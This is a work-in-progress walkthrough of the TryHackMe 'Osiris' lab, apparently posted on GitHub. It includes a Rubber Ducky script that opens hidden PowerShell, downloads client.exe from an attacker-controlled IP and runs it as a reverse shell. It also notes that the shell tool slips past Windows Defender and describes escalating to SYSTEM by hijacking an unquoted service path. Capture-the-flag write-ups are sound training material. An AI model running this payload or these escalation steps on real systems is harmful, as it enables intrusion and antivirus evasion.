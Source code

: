 # Osiris - WIP

https://tryhackme.com/room/osiris

Rated "INSANE"

The machine won't respond to scans, but as the description says, tftp is open. This first requires that you have a tftp client, on the attack box install using `sudo apt install tftp`, then connect using `tftp <targetip>`, however first we need a script.

To exploit rubberducky, I used the script below. This uses [reverse_ssh](https://github.com/NHAS/reverse_ssh), my revshell of choice, which is typically ignored by windows defender and other protection mechanisms.

```
DELAY 1000
GUI r
DELAY 200
STRING powershell -W hidden
ENTER
DELAY 3000
STRING Invoke-WebRequest http://10.10.80.36:1234/client.exe -outfile c:\windows\temp\c.exe
ENTER
DELAY 3000
STRING c:\windows\temp\c.exe
ENTER
```

I put the above in a file named `script`, then connected over tftp and ran `put script` to put it in place. For this to work, a local webserver on port 1234 allows client.exe to be downloaded, and I got a shell connection in seconds.

On the machine as `alcrez` the first flag is in their desktop folder.

To privesc to system, a few things can be picked up from local enumeration:

- there is a folder at c:\scripts, that contains a vbs file and a cmd file. The vbs file seems to do nothing, but appears to relate to a local service (details next), while the cmd file downloads a zip file to c:\temp, extracts it, then force copies its contents to `c:\program files\ivpn client`.
- there is a local service named `ivpn service` that executes the ivpn client. notably this service uses an unquoted path, and so if you could get an exe named ivpn into program files or into the ivpn folder, you could hijack the service.
- the service runs as system, but as the user alcrez you have the rights to restart the service.

Presumably the vbs script that seems to do nothing triggers whatever is needed to run the extract and copy operation. This can be tested by putting any arbitary file into c:\temp, running the vbs, and observing that file is now inside the program files vpn folder. The path to privesc is thus: create a valid service binary that will give you a rev shell and avoids defender, put that in c:\temp, run the vbs script and finally restart the service to trigger the binary.
